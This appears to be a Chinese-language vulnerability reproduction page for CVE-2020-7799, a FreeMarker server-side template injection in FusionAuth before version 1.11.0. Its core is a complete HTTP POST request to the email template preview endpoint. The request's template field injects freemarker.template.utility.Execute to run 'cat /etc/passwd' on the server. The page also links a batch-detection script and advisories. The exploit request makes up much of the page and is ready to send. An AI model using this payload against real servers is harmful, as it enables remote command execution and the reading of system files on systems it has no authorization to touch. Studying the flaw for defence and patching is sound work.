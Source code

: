 （CVE-2020-7799） Apache FreeMarker模板FusionAuth远程代码执行漏洞
=================================================================

一、漏洞简介
------------

在FusionAuth
1.11.0版本之前的中发现了一个问题。经过身份验证的用户允许编辑电子邮件模板（主页-\>设置-\>电子邮件模板）或主题（主页-\>设置-\>主题），可利用`freemarker.template.utility.Execute`执行任意命令

二、漏洞影响
------------

三、复现过程
------------

post提交

    POST /ajax/email/template/preview HTTP/1.1
    Host: www.0-sec.org:9011
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: */*
    Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 796
    DNT: 1
    Connection: close
    Referer: http://192.168.0.3:9011/admin/email/template/edit/2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b
    Cookie: JSESSIONID=FA9DB3CBABA6B37E5336AE4B96001807; 

    primeCSRFToken=kRC228UjAA4ohN_E9PW9kz0HpTlxUDCB_HVrDhBUfWU&emailTemplateId=2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b&emailTemplate.name=COPPA%20Notice&emailTemplate.defaultSubject=Notice%20of%20your%20consent&emailTemplate.fromEmail=no-reply%40fusionauth.io&emailTemplate.defaultFromName=FusionAuth&emailTemplate.defaultTextTemplate=You%20recently%20granted%20your%20child%20consent%20in%20our%20system.%20This%20email%20is%20to%20notify%20you%20of%20this%20consent.%20If%20you%20did%20not%20grant%20this%20consent%20or%20wish%20to%20revoke%20this%20consent%2C%20click%20the%20link%20below%3A%0A%0Ahttp%3A%2F%2Fexample.com%2Fconsent%2Fmanage%0A%0A-%20FusionAuth%20Admin&emailTemplate.defaultHtmlTemplate=${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}}

![](resource/(CVE-2020-7799)ApacheFreeMarker模板FusionAuth远程代码执行漏洞/media/rId24.png)

### 批量检测脚本

https://github.com/ianxtianxt/CVE-2020-7799/

参考链接
--------

> https://www.anquanke.com/vul/id/1910928
>
> https://cert.360.cn/warning/detail?id=207275e27a6e7ee85a43a6eb5cf5fc69
